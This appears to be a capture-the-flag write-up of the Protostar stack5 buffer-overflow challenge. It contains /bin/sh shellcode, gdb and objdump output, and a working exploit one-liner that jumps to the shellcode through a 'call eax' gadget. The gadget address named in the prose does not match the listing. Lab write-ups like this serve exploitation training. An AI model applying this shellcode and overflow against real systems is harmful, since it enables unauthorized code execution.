 ```yaml
---
layout: post
title: "Protostar stack05 writeup"
tags: [protostar]
comments: false
---
```


This challenge gives out a source code

```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  char buffer[64];

  gets(buffer);
}
```

Unlike from the other challenges, this one doesn't contain any functions like the win() function.
In the challenge description it says to use shellcode.

my shellcode where it executes /bin/sh will be
```
\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80
```
which is 25 bytes

When I was going through the binary I realized that the register eax contains the start of the buf[64] address

```
(gdb) b *main+21
Breakpoint 1 at 0x80483d9: file stack5/stack5.c, line 11.
(gdb) r
Starting program: /opt/protostar/bin/stack5 
AAAA

Breakpoint 1, main (argc=1, argv=0xbffffd54) at stack5/stack5.c:11
11      stack5/stack5.c: No such file or directory.
        in stack5/stack5.c
(gdb) x/10x $esp
0xbffffc50:     0xbffffc60      0xb7ec6165      0xbffffc68      0xb7eada75
0xbffffc60:     0x41414141      0x08049500      0xbffffc78      0x080482c4
0xbffffc70:     0xb7ff1040      0x0804958c
(gdb) info reg
eax            0xbffffc60       -1073742752
```

So if I start the buf[64] by putting in the shellcode then put in some dummy values to reach ret and then overwrite it with an address that calls eax(which will be call eax) then it will run the shellcode.

to find an instruction of call eax
```
root@protostar:/opt/protostar/bin# objdump -d stack5 -M intel | grep call
 804829f:       e8 00 00 00 00          call   80482a4 <_init+0xc>
 80482b5:       e8 1e 00 00 00          call   80482d8 <__gmon_start__@plt>
 80482ba:       e8 e1 00 00 00          call   80483a0 <frame_dummy>
 80482bf:       e8 8c 01 00 00          call   8048450 <__do_global_ctors_aux>
 804832c:       e8 c7 ff ff ff          call   80482f8 <__libc_start_main@plt>
 8048378:       ff 14 85 ac 94 04 08    call   DWORD PTR [eax*4+0x80494ac]
 80483bf:       ff d0                   call   eax
 80483d4:       e8 0f ff ff ff          call   80482e8 <gets@plt>
 80483f6:       e8 4f 00 00 00          call   804844a <__i686.get_pc_thunk.bx>
 8048404:       e8 8f fe ff ff          call   8048298 <_init>
 8048434:       ff 94 b3 18 ff ff ff    call   DWORD PTR [ebx+esi*4-0xe8]
 804846b:       ff d0                   call   eax
 8048483:       e8 00 00 00 00          call   8048488 <_fini+0xc>
 804848f:       e8 ac fe ff ff          call   8048340 <__do_global_dtors_aux>
```

You can see that call eax is located at 0x804846d

So if we make a exploit it will be

```
root@protostar:/opt/protostar/bin# (python -c 'print "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80"+"A"*51+"\xbf\x83\x04\x08"';cat) | ./stack5
whoami
root
```

even though I am already on root, it's fine because we can still see that the shellcode worked.

